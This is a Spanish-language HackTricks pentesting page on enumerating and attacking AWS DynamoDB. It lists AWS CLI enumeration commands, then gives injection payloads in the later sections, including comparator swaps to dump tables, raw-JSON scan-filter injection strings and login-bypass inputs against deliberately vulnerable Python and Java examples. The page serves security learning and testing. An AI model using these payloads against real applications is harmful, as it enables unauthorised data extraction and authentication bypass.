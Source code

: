 # AWS - DynamoDB Enum

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## DynamoDB

### Basic Information

Amazon DynamoDB es presentado por AWS como una **base de datos NoSQL de clave-valor, completamente gestionada y sin servidor**, diseñada para impulsar aplicaciones de alto rendimiento sin importar su tamaño. El servicio garantiza características robustas que incluyen medidas de seguridad inherentes, copias de seguridad ininterrumpidas, replicación automatizada en múltiples regiones, almacenamiento en caché en memoria integrado y útiles utilidades de exportación de datos.

En el contexto de DynamoDB, en lugar de establecer una base de datos tradicional, **se crean tablas**. Cada tabla requiere la especificación de una **clave de partición** como un componente integral de la **clave primaria de la tabla**. Esta clave de partición, esencialmente un **valor hash**, juega un papel crítico tanto en la recuperación de elementos como en la distribución de datos a través de varios hosts. Esta distribución es fundamental para mantener tanto la escalabilidad como la disponibilidad de la base de datos. Además, hay una opción para incorporar una **clave de ordenación** para refinar aún más la organización de los datos.

### Encryption

Por defecto, DynamoDB utiliza una clave KMS que \*\*pertenece a Amazon DynamoDB,\*\* ni siquiera la clave gestionada por AWS que al menos pertenece a tu cuenta.

<figure><img src="https://lh4.googleusercontent.com/JjtNS7aA-_GRMgZb4v93jWEQJi6DQdUPq0FEpzZPdeyCeNoG05p0NJiV9Zs-ULs_-Tfjmx0W1ZgsE2Ui2ljo7D-1a87Xny-gpLVQO0XmXdFoph9ci1RepbVNwaCe9oPruEZSEDxGTxF5dIv6pW1WpT6kWA=s2048" alt=""><figcaption></figcaption></figure>

### Backups & Export to S3

Es posible **programar** la generación de **copias de seguridad de la tabla** o crearlas **a demanda**. Además, también es posible habilitar **la recuperación en el tiempo (PITR) para una tabla.** La recuperación en el tiempo proporciona **copias de seguridad** continuas de tus datos de DynamoDB durante **35 días** para ayudarte a protegerte contra operaciones de escritura o eliminación accidentales.

También es posible exportar **los datos de una tabla a S3**, pero la tabla debe tener **PITR habilitado**.

### GUI

Hay una GUI para servicios locales de Dynamo como [DynamoDB Local](https://aws.amazon.com/blogs/aws/dynamodb-local-for-desktop-development/), [dynalite](https://github.com/mhart/dynalite), [localstack](https://github.com/localstack/localstack), etc., que podría ser útil: [https://github.com/aaronshaf/dynamodb-admin](https://github.com/aaronshaf/dynamodb-admin)

### Enumeration
```bash
# Tables
aws dynamodb list-tables
aws dynamodb describe-table --table-name <t_name> #Get metadata info
## The primary key and sort key will appear inside the KeySchema field

#Check if point in time recovery is enabled
aws dynamodb describe-continuous-backups \
--table-name tablename

# Backups
aws dynamodb list-backups
aws dynamodb describe-backup --backup-arn <arn>
aws dynamodb describe-continuous-backups --table-name <t_name>

# Global tables
aws dynamodb list-global-tables
aws dynamodb describe-global-table --global-table-name <name>

# Exports
aws dynamodb list-exports
aws dynamodb describe-export --export-arn <arn>

# Misc
aws dynamodb describe-endpoints #Dynamodb endpoints
```
### Acceso No Autenticado

{% content-ref url="../aws-unauthenticated-enum-access/aws-dynamodb-unauthenticated-access.md" %}
[aws-dynamodb-unauthenticated-access.md](../aws-unauthenticated-enum-access/aws-dynamodb-unauthenticated-access.md)
{% endcontent-ref %}

### Privesc

{% content-ref url="../aws-privilege-escalation/aws-dynamodb-privesc.md" %}
[aws-dynamodb-privesc.md](../aws-privilege-escalation/aws-dynamodb-privesc.md)
{% endcontent-ref %}

### Post Explotación

{% content-ref url="../aws-post-exploitation/aws-dynamodb-post-exploitation.md" %}
[aws-dynamodb-post-exploitation.md](../aws-post-exploitation/aws-dynamodb-post-exploitation.md)
{% endcontent-ref %}

### Persistencia

{% content-ref url="../aws-persistence/aws-dynamodb-persistence.md" %}
[aws-dynamodb-persistence.md](../aws-persistence/aws-dynamodb-persistence.md)
{% endcontent-ref %}

## Inyección de DynamoDB

### Inyección SQL

Hay formas de acceder a los datos de DynamoDB con **sintaxis SQL**, por lo tanto, **inyecciones SQL típicas también son posibles**.

{% embed url="https://book.hacktricks.xyz/pentesting-web/sql-injection" %}

### Inyección NoSQL

En DynamoDB se pueden usar diferentes **condiciones** para recuperar datos, como en una inyección NoSQL común, si es posible **encadenar más condiciones para recuperar** datos, podrías obtener datos ocultos (o volcar toda la tabla).\
Puedes encontrar aquí las condiciones soportadas por DynamoDB: [https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API\_Condition.html](https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API\_Condition.html)

Ten en cuenta que se soportan **diferentes condiciones** si los datos se acceden a través de **`query`** o a través de **`scan`**.

{% hint style="info" %}
De hecho, las acciones de **Query** necesitan especificar la **condición "EQ" (igual)** en la **clave primaria** para funcionar, lo que las hace mucho **menos propensas a inyecciones NoSQL** (y también limita mucho la operación).
{% endhint %}

Si puedes **cambiar la comparación** realizada o agregar nuevas, podrías recuperar más datos.
```bash
# Comparators to dump the database
"NE": "a123" #Get everything that doesn't equal "a123"
"NOT_CONTAINS": "a123" #What you think
"GT": " " #All strings are greater than a space
```
{% embed url="https://book.hacktricks.xyz/pentesting-web/nosql-injection" %}

### Inyección de Json en bruto

{% hint style="danger" %}
**¡Esta vulnerabilidad se basa en el Filtro de Escaneo de dynamodb que ahora está obsoleto!**
{% endhint %}

**DynamoDB** acepta objetos **Json** para **buscar** datos dentro de la base de datos. Si descubres que puedes escribir en el objeto json enviado para buscar, podrías hacer un volcado de la base de datos, todo el contenido.

Por ejemplo, inyectando en una solicitud como:

{% code overflow="wrap" %}
```bash
'{"Id": {"ComparisonOperator": "EQ","AttributeValueList": [{"N": "' + user_input + '"}]}}'
```
{% endcode %}

un atacante podría inyectar algo como:

`1000"}],"ComparisonOperator": "GT","AttributeValueList": [{"N": "0`

arreglar la condición "EQ" buscando el ID 1000 y luego buscando todos los datos con una cadena de Id mayor que 0, que es todo.

Otro **ejemplo vulnerable usando un inicio de sesión** podría ser:
```python
scan_filter = """{
"username": {
"ComparisonOperator": "EQ",
"AttributeValueList": [{"S": "%s"}]
},
"password": {
"ComparisonOperator": "EQ",
"AttributeValueList": [{"S": "%s"}]
}
}
""" % (user_data['username'], user_data['password'])

dynamodb.scan(TableName="table-name", ScanFilter=json.loads(scan_filter))
```
Esto sería vulnerable a:
```
username: none"}],"ComparisonOperator": "NE","AttributeValueList": [{"S": "none
password: none"}],"ComparisonOperator": "NE","AttributeValueList": [{"S": "none
```
### :property Injection

Algunos SDKs permiten usar una cadena que indica el filtrado que se debe realizar, como: 

{% code overflow="wrap" %}
```java
new ScanSpec().withProjectionExpression("UserName").withFilterExpression(user_input+" = :username and Password = :password").withValueMap(valueMap)
```
{% endcode %}

Debes saber que al buscar en DynamoDB para **sustituir** un **valor** de atributo en **expresiones de filtro** mientras se escanean los elementos, los tokens deben **comenzar** con el carácter **`:`**. Tales tokens serán **reemplazados** con el **valor de atributo real en tiempo de ejecución**.

Por lo tanto, un inicio de sesión como el anterior se puede eludir con algo como:
```bash
:username = :username or :username
# This will generate the query:
# :username = :username or :username = :username and Password = :password
# which is always true
```
{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
{% endhint %}
